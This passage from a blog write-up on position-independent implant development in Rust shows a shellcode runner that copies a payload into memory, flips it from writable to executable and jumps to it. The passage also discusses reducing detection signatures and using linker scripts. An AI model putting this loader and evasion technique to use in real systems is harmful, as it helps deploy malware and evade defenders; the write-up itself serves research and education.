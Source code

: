 ```rust
/* main() @ https://raw.githubusercontent.com/Irate-Walrus/stardust-rs/35f2ed30390c30bb4ea513ecea6ac44ccc3938b3/runner/src/main.rs */
/* 19 */    println!("[*] Allocate RW Memory");
/* 20 */    let buffer_ptr = alloc_rw();
/* 21 */
/* 22 */    println!("[*] Copy Shellcode Into RW Memory");
/* 23 */    unsafe {
/* 24 */        ptr::copy_nonoverlapping(SHELLCODE.as_ptr(), buffer_ptr as *mut u8, SHELLCODE.len());
/* 25 */    }
/* 26 */
/* 27 */    println!("[*] Set Memory RX");
/* 28 */    set_rx(buffer_ptr);
/* 29 */
/* 30 */    println!("[*] Allocation Start Address:\t0x{:x}", buffer_ptr as usize);
/* 31 */    println!(
/* 32 */        "[*] Allocation End Address:\t0x{:x}",
/* 33 */        buffer_ptr as usize + SHELLCODE.len()
/* 34 */    );
/* 35 */
/* 36 */    println!("[*] Allocation Size:\t\t{}B", SHELLCODE.len());
/* 37 */
/* 38 */    println!("{}", STARDUST_BANNER);
/* 39 */    let exec: extern "C" fn() -> ! = unsafe { mem::transmute(buffer_ptr) };
/* 40 */    exec();
```

This does have its own issues, notice that RW -> RX memory allocations still occur but no metadata or loader is required (one less signature). However, what did we loose? Relocations, memory protections, and a known location in memory.

It was at this point in reading a blog by @5pider, [Modern implant design: position independent malware development](https://5pider.net/blog/2024/01/27/modern-shellcode-implant-design) I thought:

_"That looks easy, why does everyone always target Windows (the inferior platform)? I bet I could do a better job, cross-platform, in Rust"_ - some idiot.

Thankfully @5pider had already solved some of these issues for me, although his source code sometimes made me question my sanity.

### 3.1.0 - A Journey in Self-Discovery

So, turns out self-discovery (of the PIC code) in memory isn't so bad, we just need to brutally destroy the existing binary formats using linker scripts, a little custom assembly and we're off to the races.

> **NOTE**
>
> _"A linker or link editor is a computer program that combines intermediate software build files such as object and library files into a single executable file such a program or library"_ - [Wikipedia](https://en.wikipedia.org/wiki/Linker_(computing))
>
> _"The main purpose of the linker script is to describe how the sections in the input files should be mapped into the output file, and to control the memory layout of the output file"_ - [HAW Hamburg](https://users.informatik.haw-hamburg.de/~krabat/FH-Labor/gnupro/5_GNUPro_Utilities/c_Using_LD/ldLinker_scripts.html)
>
> Executable formats such as PEs and ELFs use linker scripts to define their output formats. You can view the linker script for an x86_64 ELF using `ld --verbose -m elf_x86_64`.
